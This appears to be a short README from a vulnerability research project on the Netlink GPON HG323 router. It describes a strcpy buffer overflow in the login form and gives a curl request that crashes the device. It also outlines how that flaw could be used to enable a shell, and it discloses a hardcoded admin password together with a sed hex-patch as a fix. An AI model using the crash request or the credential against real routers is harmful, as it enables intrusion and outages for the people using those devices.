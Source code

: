 # Reverse Enginneer Netlink GPON HG323  router 

An attempt to reverse engineer Netlink hg323 router to find vulnerablities.

## Firmware : 1.0.35-200817




## Buffer overflow
Buffer overflow in login form, Great!. One hell of a secure router!.

### vulnerable code

    strcpy(username, input_username)

curl http://192.168.1.1/boaform/admin/formLogin_en  --data-raw 'username=AAAAAAAAAA * 4000'&psd=blah&verification_code=CAPTCHA&csrftoken=CSRF_TOKEN'

This would crash the router.
Easiest way to leverage this buffer overflow to use 'formMgmConfig' funtion,
which will get the "last_good.xml', then login and enable shell or whatever.

## Hardcoded credentials
    user : admin
    password : stdONU101 

This password is hardcodedin 'boa' binary. 

Even if we change the password, whenever the router is swtched off, it resets to this paasword.

Only solution is to hex patch the 'boa' binary

        sed -i 's/\x73\x74\x64\x4f\x4e\x55\x31\x30\x31/\x73\x74\x76\x44\x4e\x55\x37\x37\x37/g /bin/boa








